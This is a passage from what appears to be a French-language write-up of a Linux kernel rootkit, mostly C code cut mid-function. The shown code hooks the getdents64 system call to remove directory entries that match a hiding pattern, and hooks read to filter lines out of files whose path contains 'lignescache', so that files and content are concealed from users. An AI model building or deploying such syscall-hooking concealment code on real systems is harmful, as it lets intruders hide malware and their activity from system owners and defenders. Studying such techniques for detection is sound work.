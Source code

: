 ```c
    // Parcours et filtrage des entrees
    decalage = 0;
    entree_precedente = NULL;
    
    while (decalage < taille_retour) {
        entree_courante = (struct linux_dirent64 *)((char *)tampon_noyau + decalage);
        
        // Test pattern de dissimulation
        if (verifier_nom_interdit(entree_courante->d_name)) {
            if (entree_precedente) {
                // Fusion avec entree precedente
                entree_precedente->d_reclen += entree_courante->d_reclen;
            } else {
                // Suppression premiere entree par decalage memoire
                taille_retour -= entree_courante->d_reclen;
                memmove(entree_courante, 
                       (char *)entree_courante + entree_courante->d_reclen,
                       taille_retour - decalage);
                continue;
            }
        } else {
            entree_precedente = entree_courante;
        }
        decalage += entree_courante->d_reclen;
    }
    
    // Retour vers userspace
    copy_to_user(listing_utilisateur, tampon_noyau, taille_retour);
    kfree(tampon_noyau);
}
```

**Algorithme de suppression** : Manipulation directe de la structure `linux_dirent64` pour supprimer les entrees correspondant aux patterns

### Filtrage de contenu de fichiers en temps reel

L'interception de `read` permet le filtrage ligne par ligne du contenu des fichiers :

```c
// Filtrage dans intercepter_lecture_fichier
static asmlinkage long intercepter_lecture_fichier(const struct pt_regs *registres)
{
    char *tampon_lecture, *tampon_filtre;
    char *debut_ligne, *fin_ligne;
    
    // Execution read original
    octets_lus = camouflage.lecture_originale(registres);
    
    // Verification si fichier cible (chemin contient "lignescache")
    fichier_ouvert = fget(descripteur_fichier);
    nom_chemin = d_path(&fichier_ouvert->f_path, chemin_fichier, PATH_MAX);
    if (!strstr(nom_chemin, "lignescache")) return octets_lus;
    
    // Copie et filtrage ligne par ligne
    tampon_lecture = kzalloc(octets_lus + 1, GFP_KERNEL);
    copy_from_user(tampon_lecture, tampon_utilisateur, octets_lus);
    
    tampon_filtre = kzalloc(octets_lus + 1, GFP_KERNEL);
    taille_filtree = 0;
    debut_ligne = tampon_lecture;
    
    while (debut_ligne < tampon_lecture + octets_lus) {
        fin_ligne = strchr(debut_ligne, '\n');
```